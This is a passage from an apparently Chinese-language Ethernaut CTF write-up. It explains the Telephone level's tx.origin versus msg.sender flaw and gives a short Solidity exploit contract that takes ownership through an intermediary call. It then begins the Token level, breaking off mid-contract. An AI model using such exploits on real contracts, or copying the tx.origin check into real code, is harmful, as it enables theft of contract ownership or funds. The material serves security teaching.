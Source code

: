 ??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Telephone {
        address public owner;
        constructor() public {
            owner = msg.sender;
        }

        function changeOwner(address _owner) public {
            if (tx.origin != msg.sender) {
                owner = _owner;
            }
        }
    }
    ```

也是需要拿到合约的所有权，而调用合约中的 changeOwner 函数来转移所有权的话，需要使 tx.origin 和 msg.sender 不同

它们的区别：

- tx.origin：交易发送方，是整个交易最开始的地址
- msg.sender：消息发送方，是当前调用的调用方地址

所以如果通过 账户 A -> 合约 A -> 合约 B 来调用的话，tx.origin 就是账户 A，而对于合约 B 来说，msg.sender 是合约 A

所以这题只需要编写一个新的合约来调用题目的 changeOwner 函数就好了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Telephone */

    contract Exploit {
        Telephone p = Telephone(<instance address>);
        function exp() public {
            p.changeOwner(msg.sender);
        }
    }
    ```

---

## Token

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Token {
        mapping(address => uint) balances;
        uint public totalSupply;
